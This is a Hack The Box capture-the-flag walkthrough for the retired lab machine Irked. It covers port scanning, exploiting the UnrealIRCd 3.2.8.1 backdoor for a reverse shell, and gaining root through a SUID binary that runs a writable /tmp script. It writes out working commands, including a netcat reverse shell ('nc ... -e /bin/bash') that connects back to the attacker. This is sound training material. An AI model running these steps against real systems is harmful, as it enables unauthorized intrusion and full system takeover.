




hackthebox Irked
Released: 17th November 2018 / Pwned: 29th October 2019 - [+] Solved whilst Retired

Irked has you attacking UnrealIRC, a widespread IRC daemon with a devastating command execution vulnerability. Once on the system, you exploit a SUID binary to get root.
Exploits/Scripts/Unique Tools used
• HexChat
• https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor
1) Nmap
Initial TCP all-ports scan:
nmap -p- -T4 -oN nmap/tcp-allports.txt 10.10.10.117
Run service enumeration, default scripts and OS detection against open TCP ports:
nmap -p 22,80,111,6697,8067,40573,65534 -T4 -sV -sC -O -oN nmap/tcp-openports.txt 10.10.10.117
-sV service enumeration
-sC default scripts
-O OS detection
-oN default output
Results:
┌─[root@parrot]─[/ctf/irked]
└──╼ #mkdir nmap
┌─[root@parrot]─[/ctf/irked]
└──╼ #nmap -p- -T4 -oN nmap/tcp-all.txt 10.10.10.117
[...]
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
111/tcp open rpcbind
6697/tcp open ircs-u
8067/tcp open infi-async
40573/tcp open unknown
65534/tcp open unknown
┌─[root@parrot]─[/ctf/irked]
└──╼ #nmap -p 22,80,111,6697,8067,40573,65534 -T4 -sV -sC -O -oN nmap/tcp-open.txt 10.10.10.117
[...]
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey:
| 1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
| 2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
| 256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_ 256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp open http Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesnt have a title (text/html).
111/tcp open rpcbind 2-4 (RPC #100000)
| rpcinfo:
| program version port/proto service
| 100000 2,3,4 111/tcp rpcbind
| 100000 2,3,4 111/udp rpcbind
| 100000 3,4 111/tcp6 rpcbind
| 100000 3,4 111/udp6 rpcbind
| 100024 1 40573/tcp status
| 100024 1 46622/tcp6 status
| 100024 1 51941/udp6 status
|_ 100024 1 56607/udp status
6697/tcp open irc UnrealIRCd
8067/tcp open irc UnrealIRCd
40573/tcp open status 1 (RPC #100024)
65534/tcp open irc UnrealIRCd
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%)
[...]
Analysis:
• 22/ssh - Useful to know for later. Also note that 6.7p1 is an old version of OpenSSH
• 80/http - Nothing here, apart from a mention of IRC. Note that Apache 2.4.10 is old. We're targeting an old system here.
• 6697/UnrealIRCd - An IRC client! It's running on a non-standard port (I think). The standard IRC port is 6667.
2) 6697 - UnrealIRCd
I wanted to find what version of UnrealIRCd was running, so I connected to the IRC on Irked with HexChat.
Open HexChat.
Add a new Network.

Configure the IP and port to that of your target - 10.10.10.117/6697.

Click Close and click Connect.
Upon connection, you'll see the running version - Unreal3.2.8.1.

searchsploit for some exploits.
┌─[root@parrot]─[/ctf/irked]
└──╼ #searchsploit unrealirc
--------------------------------------------------------------------------------------------------
Exploit Title | Path
| (/usr/share/exploitdb/)
--------------------------------------------------------------------------------------------------
UnrealIRCd 3.2.8.1 - Backdoor Command Execution(Metasploit) | exploits/linux/remote/16922.rb
UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow | exploits/windows/dos/18011.txt
UnrealIRCd 3.2.8.1 - Remote Downloader/Execute | exploits/linux/remote/13853.pl
UnrealIRCd 3.x - Remote Denial of Service | exploits/windows/dos/27407.pl
--------------------------------------------------------------------------------------------------
Shellcodes: No Result
The DoS attacks I'm not interested in, and I wanted to avoid using metasploit.
The best option was the Remote Downloaded/Execute exploit then - https://www.exploit-db.com/exploits/13853.
3) 13853.pl is Broken
The exploit code for https://www.exploit-db.com/exploits/13853 needs tweaking:
• The (now broken) URLs need substituting with commands
◇ my $payload1 - can generate a unix bind shell with msfvenom
◇ my $payload2 - can generate a perl reverse shell with msfvenom
• The payload numbers are wrong
◇ Payloads 2 and 3 are swapped
◇ my $payload2 is clearly a bot, but the help output says that option 2 is a reverse shell
◇ my $payload3 is clearly a reverse shell, but the help output says that option 3 is a bot
Despite modifications, I couldn't get this exploit to work.
Reading other exploit scripts, I think the payload might need to be base64 encoded before it's submitted.
Gain Access
4) Metasploit or Google
Alternatively, then, you could use metasploit to exploit UnrealIRC, or find another script.
I consulted google and found another exploit script - https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor.
Many thanks to Ranger11Danger, all credit goes to them.
Download Ranger11Danger's script.
┌─[root@parrot]─[/ctf/irked/unrealirc]
└──╼ #wget -q https://raw.githubusercontent.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor/master/exploit.py
┌─[root@parrot]─[/ctf/irked/unrealirc]
└──╼ #mv exploit.py unrealpwn.py
Modify the IP and port the script's reverse shells will connect back to.
┌─[root@parrot]─[/ctf/irked/unrealirc]
└──╼ #nano unrealpwn.py
[...]
# Sets the local ip and port (address and port to listen on)
local_ip = '10.10.14.12' # CHANGE THIS
local_port = '9001' # CHANGE THIS
[...]
Start a listener on your chosen port.
┌─[root@parrot]─[/ctf/irked/unrealirc]
└──╼ #nc -lvnp 9001
listening on [any] 9001 ...
And run the exploit script! I used the python payload.
┌─[✗]─[root@parrot]─[/ctf/irked/unrealirc]
└──╼ #python3 unrealpwn.py 10.10.10.117 6697 -payload python
Exploit sent successfully!
You should see a reverse shell from ircd on your listener.
[...]
listening on [any] 9001 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.117] 37854
ircd@irked:~/Unreal3.2$ id
id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
Priv-Esc to root
5) viewuser
lse.sh is a brilliant system info gathering tool - https://github.com/diego-treitos/linux-smart-enumeration.
Check for SUID binaries on the system.
ircd@irked:/tmp$ find / -perm -u=s 2>/dev/null
[...]
/usr/bin/viewuser
/sbin/mount.nfs
/bin/su
/bin/mount
/bin/fusermount
/bin/ntfs-3g
/bin/umount
viewuser is an unusual SUID binary.
It's owned by root and has a SUID bit on it, which means that viewuser will run as root.
ircd@irked:/tmp$ ls -l /usr/bin/viewuser
-rwsr-xr-x 1 root root 7328 May 16 2018 /usr/bin/viewuser
Run viewuser, you'll see that it tries to execute a shell script - /tmp/listusers, which doens't exist.
ircd@irked:/tmp$ viewuser -h
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0 2019-10-29 04:54 (:0)
sh: 1: /tmp/listusers: not found
Because viewuser runs as root, it will execute /tmp/listusers as root.
/tmp/listusers doesn't exist.
This means we can create our own /tmp/listusers file and write a reverse shell in it.
When viewuser runs /tmp/listusers, we'll be sent a reverse shell by root.
Start a listener on your attacking machien to receive the reverse shell
┌─[root@parrot]─[/ctf/irked]
└──╼ #nc -lvnp 9002
listening on [any] 9002 ...
Write a netcat reverse shell into /tmp/listusers and make it executable by everyone.
ircd@irked:/tmp$ echo "nc 10.10.14.12 9002 -e /bin/bash" > /tmp/listusers
ircd@irked:/tmp$ chmod 777 /tmp/listusers
ircd@irked:/tmp$ ls -l /tmp/listusers
-rwxrwxrwx 1 ircd ircd 33 Oct 29 07:01 /tmp/listusers
Run viewuser.
ircd@irked:/tmp$ viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0 2019-10-29 04:54 (:0)
[...]
The binary will hang, and you shoudl have a root shell on your listener.
[...]
listening on [any] 9002 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.117] 54095
id
uid=0(root) gid=1001(ircd) groups=1001(ircd)
cat /root/root.txt
8d8e9e8...
cat /home/djmardov/Documents/user.txt
4a66a78...